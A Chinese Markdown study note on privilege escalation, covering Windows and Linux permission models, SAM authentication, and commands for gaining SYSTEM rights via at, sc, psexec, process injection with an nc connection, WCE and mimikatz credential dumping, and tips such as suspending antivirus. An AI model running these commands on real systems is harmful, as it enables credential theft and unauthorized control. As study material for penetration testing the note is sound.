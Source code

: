 
# 提权

* 系统账号之间权限隔离
    - 操作系统的安全基础
    - 用户空间
    - 内核空间
  
* 系统账号
    - 用户账号登陆时候获取权限令牌
    - 服务账号无需用户登录已在后台启动服务

* windows用户全权限划分:
    - Users:普通用户组,Users 组是最安全的组，因为分配给该组的默认权限不允许成员修改操作系统的设置或用户资料
    - Administrators:管理员组，默认情况下，Administrators中的用户对计算机/域有不受限制的完全访问权。分配给该组的默认权限允许对整个系统进行完全控制　
    - System:拥有和Administrators一样、甚至比其还高的权限，但是这个组不允许任何用户的加入，在查看用户组的时候，它也不会被显示出来，它就是SYSTEM组。系统和系统级的服务正常运行所需要的权限都是靠它赋予的。

* Linux系统用户权限划分:　
    - Users：普通用户
    - Root：管理员账号

---
* windows

* linux

* 注入进程提权

* 利用漏洞提权

* 利用配置不当提权

## windows

* at实现管理员权限提升为system权限
``` 
at 16:53 /interactive cmd   #xp或者win2003
```

* sc实现把administrator提升为system
``` 
sc create yycmd binPath= "cmd /k start"  type= own type= interact   #注意“=”之后有空格  创建服务
sc start yycmd  # 启动创建的服务
```

* Pinjecter注入进程提权
``` 
pinjecter.exe -p 672 cmd 6666

# 连接
nc 192.168.110.143 666
```


* sysinternal suite
> https:// technet.microsoft.com/sysinternals/bb545027
```shell
    psexec -i -s taskmgr
```

```shell
    at 19:39 /interactive cmd 
    sc Create syscmd bincmd binPath="cmd /K start" type=own type=interact 
    sc start syscmd 
```


## linux 工具

* tmux

## 注入进程提权

* pinjector.exe


## Windows登录认证

* 登录认证过程
1. 用户登录时输入用户名和密码
1. 对输入的密码进行lmhash和nthash加密
1. 对加密的密码与系统中的SAM文件进行比对
1. SAM文件中存放的是用户的用户名和密码的hash值，如果比对成功就可以进行登录，否则登录不成功。

* SAM介绍
> Windows中对用户账户的安全管理使用了安全账号管理器SAM(security account manager)的机制,安全账号管理器对账号的管理是通过安全标识进行的，安全标识在账号创建时就同时创建，一旦账号被删除，安全标识也同时被删除。
  安全标识是唯一的，即使是相同的用户名，在每次创建时获得的安全标识都时完全不同的。因此，一旦某个账号被删除，它的安全标识就不再存在了，即使用相同的用户名重建账号，也会被赋予不同的安全标识，不会保留原来的权限。
  SAM文件是windows的用户账户数据库,所有用户的登录名及口令等相关信息都会保存在这个文件中。SAM文件可以认为类似于unix系统中的passwd文件,不过没有unix的passwd文件那么直观，当我们忘记密码的时候，就可以通过删除SAM文件，快速地进入系统。

* SAM文件位置
> C:\WINDOWS\repair\SAM　　  　
  C:\WINDOWS\system32\config\SAM　　　　
  C:\WINDOWS\repair目录下的SAM，是帐户数据库的备份文件；
  C:\WINDOWS\system32\config目录下的SAM，是系统正在使用的帐户数据库文件。


### 利用WCE进行提权

* 描述
> WCE(Windows Credential Editor)是一款功能非常强大的内网渗透工具，功能是十分强大。
  
* 查看当前登录的用户及加密的密码
``` 
wce-universal.exe -l
```

* 查看当前用户登录的详细信息
``` 
wce-universal.exe -lv
```

* 删除一个指定会话的luid
``` 
wce-universal.exe -d ID号
```

* 刷新会话信息
``` 
wce-universal.exe -e(手动更新)
wce-universal.exe -r(每隔五秒自动更新)
```

* 拼接会话信息
``` 
wce-universal.exe -i ID号 -s 用户信息
```

* 生成指定字符串的lmhash和ntlmhash
``` 
wce-universal.exe -g 明文密码
```

* 查看明文信息
``` 
wce-universal -w
```

* 预防WCE攻击

1. 打开注册表 regedit


2. 删除wdigest


### mimikatz


* 用双冒号查看命令模块和子模块

* privilege::debug 【提权到debug】

* sekurlsa::logonPasswords 【查看登录账号密码信息】

* process【启动进程】

* suspend【挂起进程：可用于植入木马时，暂停防病毒软件】

* resume 【进程恢复】

## 利用漏洞提权

> ms11-080
> kb2592799
> pyinstaller
> pywin32
> ms11-046
> ms11-080
> ms11-046
> ms14-068
> cve-212-0056{    
    /proc/pid/mem   
    kernels >= 2.6.39   
 	http://blog.zx2c4.com/749   
}


## 利用配置不当提权
```shell 
    icacls: icacls c:\windows\*.exe /save asd /T
```